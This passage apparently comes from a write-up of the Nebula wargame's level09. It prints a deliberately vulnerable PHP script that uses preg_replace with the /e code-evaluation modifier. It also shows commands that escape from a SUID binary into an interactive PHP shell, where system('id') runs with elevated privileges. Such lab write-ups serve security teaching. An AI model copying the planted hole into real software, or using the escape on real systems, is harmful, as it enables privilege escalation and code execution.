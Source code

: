 With the description we are provided with the source code of a small PHP program:

```php level9.php
<?php

function spam($email)
{
  $email = preg_replace("/\./", " dot ", $email);
  $email = preg_replace("/@/", " AT ", $email);

  return $email;
}

function markup($filename, $use_me)
{
  $contents = file_get_contents($filename);

  $contents = preg_replace("/(\[email (.*)\])/e", "spam(\"\\2\")", $contents);
  $contents = preg_replace("/\[/", "<", $contents);
  $contents = preg_replace("/\]/", ">", $contents);

  return $contents;
}

$output = markup($argv[1], $argv[2]);

print $output;

?>
```

In the `flag09` directory, we have the above PHP sample as well as a SUID binary.

```bash
level09@nebula:~$ cd ~flag09
level09@nebula:/home/flag09$ ls -lh
total 8.0K
-rwsr-x--- 1 flag09 level09 7.1K 2011-11-20 21:22 flag09
-rw-r--r-- 1 root   root     491 2011-11-20 21:22 flag09.php
```

At first I managed to solve this one really fast. When `flag09` is invoked with `-h`, it seemed like it passed the arguments directly to a PHP binary. So, I was able to drop into an interactive PHP shell and execute commands from there:

```bash
level09@nebula:/home/flag09$ ./flag09 -a
Interactive shell

php > system("id");
uid=1010(level09) gid=1010(level09) euid=990(flag09) groups=990(flag09),1010(level09)
```

With this I would have been able to prepare the small `flag09` setuid shell and complete the level. However, I did not think this was the intended route so I continued to investigate the PHP program further.
